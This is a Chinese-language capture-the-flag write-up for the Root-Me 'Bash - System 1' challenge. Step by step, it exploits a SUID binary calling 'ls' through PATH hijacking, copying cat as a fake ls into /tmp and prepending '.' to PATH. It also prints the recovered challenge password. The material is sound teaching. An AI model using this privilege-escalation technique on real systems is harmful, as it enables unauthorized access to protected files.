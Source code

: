 ## [[Root-Me](https://www.root-me.org/)] [[App-Script](https://www.root-me.org/en/Challenges/App-Script/)] [[Bash - System 1](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-1)] [[解题报告](http://exp-blog.com/2019/01/02/pid-2705/)]

------

## 考察点

 - SUID权限的可执行文件利用
 - 环境变量 PATH 中含有当前路径 "." 造成的路径胁持
 - 文件权限的传递方式

## 解题思路

> 先直接用脚本讲解正确的解题步骤，后面再解释这个思路是怎么来的）

```shell
# (1) 登入靶机后，首先检查当前的目录环境（当前用户、工作目录、拥有文件、权限等）
app-script-ch11@challenge02:~$ pwd
/challenge/app-script/ch11

# (2) 发现一个具有SUID权限的可执行脚本 ch11、一个只读的C源码文件 ch11.c、一个无法读写隐藏文件 .passwd
#     由此可以猜测最终目标就是要通过某种途径查看 .passwd 的内容
app-script-ch11@challenge02:~$ ll
total 24
dr-xr-x---  2 app-script-ch11-cracked app-script-ch11         4096 Aug 11  2015 ./
drwxr-xr-x 17 root                    root                    4096 Mar 17  2018 ../
-r--r-----  1 app-script-ch11-cracked app-script-ch11-cracked   14 Feb  8  2012 .passwd
-r-sr-x---  1 app-script-ch11-cracked app-script-ch11         7160 Aug 11  2015 ch11*
-r--r-----  1 app-script-ch11         app-script-ch11          153 Aug 11  2015 ch11.c

# (3) 查看C源码，其功能就是调用 ls 系统命令，还很贴心地注释了 gcc 编译命令
app-script-ch11@challenge02:~$ more ch11.c
#include <stdlib.h>
#include <stdio.h>

/* gcc -m32 -o ch11 ch11.c */

int main(void) 
{
        system("ls /challenge/app-script/ch11/.passwd");
        return 0;
}

# (4) 尝试执行 gcc 编译，发现没有权限在当前目录编译
app-script-ch11@challenge02:~$ gcc -m32 -o ch11 ch11.c
Cannot create temporary file in ./: Permission denied
Aborted

# (5) 直接执行 ch11 脚本，通过其输出可以知道这就是从 ch11.c 编译而来的
#     而且这个脚本还具备 SUID 权限，其 owner 为 app-script-ch11-cracked
#     在前面已经知道，.passwd 文件也是同一个 owner，且只有 owner 可读
#     因此到这里就可以明确，最终的目标就是利用 ch11 脚本的 SUID 位特性进行提取查看 .passwd 文件
app-script-ch11@challenge02:~$ ./ch11
/challenge/app-script/ch11/.passwd

# -----------------------------------------------------------
# (?) 这里可能有些同学认为自己“找到了解题方法”：
#         修改 ch11.c 调用的系统命令，如改成 "cat /challenge/app-script/ch11/.passwd"，然后重新编译执行就能达成目的
#         而 ch11.c 是只读的，问题就变成怎么编辑 ch11.c
#
#     这思路其实是错的，这也是出题人希望误导的方向。至于为什么后面再解释，暂时不展开。
#
#     这题的解法其实不是修改 ch11.c 的命令，二是修改其所调用的命令 ls 的语义为 cat 来达到目的
#     简单来说，就是让 ch11 以为自己执行的是 ls ，实际上执行的是 cat（胁持）
# -----------------------------------------------------------

# (6) 需要知道，linux 执行 bash 命令的时候，是从环境变量 PATH 去搜索同名脚本的
#     这里查看一下当前环境变量 PATH 的内容
app-script-ch11@challenge02:/tmp/exp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/opt/tools/checksec/

# (7) 列出的目录大部分都没有权限查看，但最终在 /bin 目录找到了 ls 和 cat 两个命令的脚本文件
#     当然用直接用 find / -name "cat" 命令找也是可以的，会更快
#     可以发现 ls 和 cat 脚本对所有用户都是可读的，这就为接下来的伪造命令创造了条件
#     我们的目的是：把 cat 伪装成 ls
#     但因为不具备 /bin 目录的写权限，因此不能直接在这里操作
#     但又因为有读权限，所以可以复制去其他我们有写权限的目录操作
app-script-ch11@challenge02:~$ cd /bin
app-script-ch11@challenge02:/bin$ ll | grep -w 'ls'
-rwxr-xr-x  1 root root  108708 Mar 10  2016 ls*
app-script-ch11@challenge02:/bin$ ll | grep -w 'cat'
-rwxr-xr-x  1 root root   46884 Mar 10  2016 cat*

# (8) 很自然就可以想到 /tmp 临时目录，查一下，确实具有写权限
app-script-ch11@challenge02:/bin$ cd /
app-script-ch11@challenge02:/$ ll | grep -w 'tmp'
drwxrwx-wt  20 root root 2166784 Dec 30 13:40 tmp/

# (9) 但是因为不具备对 /tmp 目录的读权限，为了方便操作，在 /tmp 目录下再建一个子目录 exp，权限设为 777
app-script-ch11@challenge02:/$ cd /tmp
app-script-ch11@challenge02:/tmp$ mkdir exp
app-script-ch11@challenge02:/tmp$ chmod 777 exp
app-script-ch11@challenge02:/tmp$ cd exp

# (10) 把 /bin/cat 脚本复制到 /tmp/exp 目录下，并重命名为 ls ， 至此伪装就完成了
app-script-ch11@challenge02:/tmp/exp$ cp /bin/cat .
app-script-ch11@challenge02:/tmp/exp$ mv cat ls
app-script-ch11@challenge02:/tmp/exp$ ll
total 2172
drwxrwxrwx  2 app-script-ch11 app-script-ch11    4096 Dec 30 13:41 ./
drwxrwx-wt 21 root            root            2166784 Dec 30 13:41 ../
-rwxr-x---  1 app-script-ch11 app-script-ch11   46884 Dec 30 13:41 ls*

# (11) 前面说过，linux 在执行 bash 命令的时候，是从环境变量 PATH 去搜索同名脚本的
#      而 ~/ch11 脚本所调用的系统命令 ls 在 /bin 目录下
#      为了达到路径胁持的目的，可以把当前目录 "." 添加到环境变量 PATH 的最前面
#      使得 linux 在搜索命令脚本的时候，先从当前目录下找
#      而在当前目录 /tmp/exp 下，我们刚刚创造了一个伪装成 ls 的 cat 脚本
app-script-ch11@challenge02:/tmp/exp$ export PATH=.:$PATH
app-script-ch11@challenge02:/tmp/exp$ echo $PATH
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/opt/tools/checksec/

# (12) 把当前目录 "." 添加到环境变量 PATH 后，在当前目录执行 ll 命令已经不起作用了
#      原因是 ll 是命令 ls -la 的缩写别名，因此会连带不生效
app-script-ch11@challenge02:/tmp/exp$ ll
ls: unrecognized option '--color=auto'
Try 'ls --help' for more information.

# (13) 最后，只需要 cd 到伪装成 ls 的 cat 脚本所在的目录下（即使得当前目录变成  /tmp/exp ）
#      再直接调用工作目录下的 ch11 脚本，即可通过 路径胁持+伪装命令 达到提权目的
#      最终我们得到了密码，完成挑战
app-script-ch11@challenge02:/tmp/exp$ ~/ch11
!oPe96a/.s8d5
```


## 解题误区

看了评论区，有大部分同学采用了类似这样的一个错误的做法：

1. 把 ch11.c 复制到 /tmp 目录，然后通过 chmod 赋予自己对 ch11.c 的写权限
2. 用 vim 把 system 命令的 ls 修改成 cat，在 /tmp 目录重新 gcc 编译得到新的 ch11 脚本
3. 通过 chmod u+s  赋予 ch11 脚本 SUID 权限，运行 ch11 脚本，最后报错 `Permission denied` 就做不下去了

为什么这样做无法提权？其实看一下 /tmp 目录 gcc 编译出来的  ch11 脚本的 owner 就知道了：

- 新编译的 ch11 脚本的 owner 是当前用户 app-script-ch11
- 而原本在 app-script-ch11 工作目录的 ch11 脚本的 owner 是 app-script-ch11-cracked

换言之新编译的 ch11 脚本的 SUID 位还是 app-script-ch11 自身，是没有办法利用 SUID 的特性在执行脚本的过程中提权为 app-script-ch11-cracked 的。


![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/App-Script/%5B01%5D%20%5B5P%5D%20Bash%20%E2%80%93%20System%201/imgs/01.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2006~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
